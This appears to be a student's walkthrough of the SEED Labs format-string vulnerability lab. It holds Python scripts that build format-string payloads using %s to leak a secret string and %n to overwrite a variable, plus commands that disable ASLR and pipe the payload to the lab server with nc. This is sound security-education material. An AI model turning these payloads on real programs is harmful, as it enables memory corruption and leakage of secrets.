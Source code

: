<!--
Notes:
format strings parecido com buffer overflow
menos tecnico que buffer overflow

ctf relativamente simples
-->
# Seed labs guide (Format-String vulnerability Lab)

<!--from the guide:
Some programs allow users to provide the entire or part of the
contents in a format string. If such contents are not sanitized, malicious users can use this opportunity to get
the program to run arbitrary code. A problem like this is called format string vulnerability.
--
$ sudo sysctl -w kernel.randomize_va_space=0
>
<!--
argumentos na stack
f {
printf("%d", n);
}
stack:
stack frame de f
%d
n

printf("%d %d", n)
vai ler cenas arbitrárias da stack
%d %d %d ... ler qqer cena da stack

printf("%d", n)
string "%d"
n
address to the string (in the stack)

e.g.
f(4, 5)
stack:
5
4  <- f points to here


printf("%d")

stack:
string (e.g "%d")
&string


printf("ABCD%d")

stack:
ABCD%d      %x  -> dá o ABCD (primeiros 4 bytes da string e depois vai imprimir os propios valores de %d)
&string     %x


"0xABCD%d" (ABCD como bytes)
ao imprimir %d vai aparacer igual (ABCD)

Quantos percentagens precisas de ter para chegar à tua string
ataque:
%x%x...%s
-->
<!--
compiling the program with make -> we can see some compilation warnings related to format strings
-->

<!--
crashed with python3 -c 'print("%s" * 1500) > file.txt
cat file.txt | nc 10.9.0.5 9090
did not print anything
-->

<!--
target 0x11223344

secret message 0x080b4008

-->



<!--
python3 -c 'print("ABCD " + "%.8x " * 64)' > badfile
para chegar ao 44434241 (ABCD em little-endian) precisamos de 64 %x
-->
<!--
@
1122334410008049db580e532080e61c0ffffd800ffffd72880e62d480e5000ffffd7c88049f7effffd8000648049f4780e53205dc5dcffffd800ffffd80080e9720000000000000000000000000018de4c0080e500080e5000ffffdde88049effffffd8005dc5dc80e5320000ffffdeb40005dcA secret message

-->

%s finds the address `0x080b4008` and prints the string at that address. Normally, this would be an argument passed to the function, but here we can exploit this passing it in the string.
```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080b4008
content[0:4] = (number).to_bytes(4,byteorder='little')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%x" * 63 + "%s"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[4:4 + len(fmt)] = fmt

# This line shows how to store a 4-byte string at offset 4
# content[4:8]  =  ("abcd").encode('latin-1')


# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

<!--
Objective: change the target's variable value.
The address is 0x080e5068, in comparison to secret_message's address 0x080b4008

-->


Here, instead of reading the string at the address given, we will be changing the value at the address given. Before, we read the values in the address, now we change that value to be the number of bytes read so far.
A normal use of this would be
```c
printf("Hello, world!%n\n", &charCount);
```
Here, there is no argument passed. In fact, the argument that is effectively seen by printf is the address that we give it. This address for 3.A is the target's variable address, so we are effectively changing its value.
```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080e5068
content[0:4] = (number).to_bytes(4,byteorder='little')

s = "%x" * 63 + "%n"

# The line shows how to store the string s at offset 4
fmt  = (s).encode('latin-1')
content[4:4 + len(fmt)] = fmt

# This line shows how to store a 4-byte string at offset 4
# content[4:8]  =  ("abcd").encode('latin-1')


# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)

```

After the execution of `myprintf`, the value of the variable is no longer 11223344, and is now 0x000000ec, which is 236 in decimal, the number of bytes read so far.

To modify it to be 0x5000, which is 20480 in decimal, we need to read 20480 bytes before the %n.

In the example below, we'll be reading 8 characters for each of the %x we have. Before the 0s were not printed and no empty space. Now the empty space is printed, effectively printing 8 characters for each of the hexadecimal prints. 63 * 8 = 504, and the value of the target variable is 0x1fc, which is 508 in decimal. This is because of the first four bytes read in binary corresponding to the address of the target variable (0x080e5068), as shown below.

```python
number  = 0x080e5068
content[0:4] = (number).to_bytes(4,byteorder='little')

s = "%8x" * 63 + "%n"
```

So, now we just need to make a %x have more characters printed (these will be empty spaces, but it counts towards counting bytes written, for the "%n"). We need 20480 bytes and have 508, so we just need to add 20480 - 508 = 19972 empty spaces to the string. 
So, on the last %x, instead of just printing 8 characters, we'll print 19980 characters.
See the string s below.
<!--
The last %x is changed to %19980x, and the number of %x is changed to 62, so that we have 62 * 8 + 19980 = 20480 characters printed, which is the number of bytes we need to write to the target variable.
-->
```python
number  = 0x080e5068
content[0:4] = (number).to_bytes(4,byteorder='little')

s = "%8x" * 62 + "%19980x" + "%n"
```

As expected, a lot of empty spaces were printed in the server output and, in the end, we could see that the target variable's value was changed to 0x5000.
